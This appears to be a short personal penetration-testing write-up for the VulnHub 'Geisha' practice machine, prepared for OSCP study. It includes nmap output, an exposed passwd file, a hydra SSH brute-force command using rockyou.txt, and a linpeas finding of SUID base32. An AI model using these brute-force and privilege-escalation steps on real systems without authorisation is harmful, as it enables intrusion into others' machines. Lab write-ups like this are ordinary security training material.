

repository: nobodynate/nobodynate.github.io · page: OSCP-Prep/VulnHub/Geisha/index.html · generator: mkdocs

# Geisha

![[Pasted image 20220520204313.png]]

```
192.168.1.133
```

## Port scan

```bash
21/tcp   open  ftp      syn-ack ttl 64 vsftpd 3.0.3
22/tcp   open  ssh      syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http     syn-ack ttl 64 Apache httpd 2.4.38 ((Debian))
3389/tcp open  http     syn-ack ttl 64 nginx 1.14.2
7080/tcp open  ssl/http syn-ack ttl 64 LiteSpeed httpd
7125/tcp open  http     syn-ack ttl 63 nginx 1.17.10
8088/tcp open  http     syn-ack ttl 64 LiteSpeed httpd
9198/tcp open  http     syn-ack ttl 64 SimpleHTTPServer 0.6 (Python 2.7.16)
```

Dirbuster found a `passwd` file at 

```url
http://192.168.1.133:7125/passwd
```

Was able to brute force the `Geisha` user with hydra

```bash
hydra -l geisha -P /usr/share/wordlists/rockyou.txt 192.168.1.133 ssh 
```

![[Pasted image 20220527214936.png]]

linpeas.sh foudn that base32 has the SUID bit set

![[Pasted image 20220527215712.png]]
